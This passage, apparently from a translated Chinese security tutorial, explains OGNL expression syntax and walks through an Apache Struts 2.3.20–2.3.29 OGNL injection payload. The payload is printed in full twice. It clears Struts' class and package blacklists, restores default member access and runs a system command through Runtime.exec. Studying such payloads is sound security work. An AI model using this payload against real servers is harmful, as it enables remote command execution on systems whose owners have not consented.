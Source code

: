 在分解有效负载之前，让我们了解一些关于 OGNL 的事情，这将帮助我们更好地理解有效负载：

| **操作员** | **说明** |
| `${..}`或`%{..}` | OGNL 表达式块。 |
| `(e)` | 带括号的表达式。 |
| `e.method(args)` | 方法调用的语法。 |
| `e.property` | 调用属性的语法。 |
| `e1[e2]` | 数组索引。 |
| `[e]` | 数组索引引用。 |
| `#variable` | 上下文变量引用。 |
| `@class@method(args)` | 静态方法参考。 |
| `{e1,e2,e3,..}` | 列表创建-逗号（`,`）的使用方式与分号（`;`）的使用方式相同，用于结束语句。 |
| `e1.(e2)` | 子表达式求值。 |

现在，让我们参考上表来分解前面提到的有效负载。

在 Struts 的早期版本中，`_memberAccess`对象用于控制 OGNL 可以做什么，但在以后的版本中，`_memberAccess`对象甚至在构造函数调用方面受到限制。这是因为`excludedClasses`、`excludedPackageNames`和`excludedPackageNamePatterns`黑名单拒绝访问特定的类和包。尽管`_memberAccess`对象是可访问的，但对该对象有很强的限制。

为了绕过这样的限制，在 Struts 版本 2.3.20–2.3.29 中，我们只需将`_memberAccess`对象替换为`DefaultMemberAccess`对象（一个来自`SecurityMemberAccess`类的可访问静态对象），这将允许我们在没有任何限制的情况下控制 OGNL 可以做什么。

因此，有效载荷的第一行通过将上下文从`_memberAccess`更改为`DefaultMemberAccess`来绕过对`_memberAccess`对象的限制：

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

在前面的代码中，`OgnlContext`是一个类，它根据 Apache 公共 OGNL 表达式引用（[定义 OGNL 表达式的执行上下文 https://commons.apache.org/proper/commons-ognl/apidocs/org/apache/commons/ognl/OgnlContext.html](https://commons.apache.org/proper/commons-ognl/apidocs/org/apache/commons/ognl/OgnlContext.html) 。

现在上下文已从`_memberAccess`更改为`DefaultMemberAccess`，我们可以使用`setMemberAccess`方法设置`MemberAccess`。然而，为了访问该对象，我们首先需要清除黑名单（`excludedClasses`、`excludedPackageNames`和`excludedPackageNamePatterns`。我们可以通过恢复到原始上下文来清除黑名单，这可以在我们有效负载的以下突出显示行中看到：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```
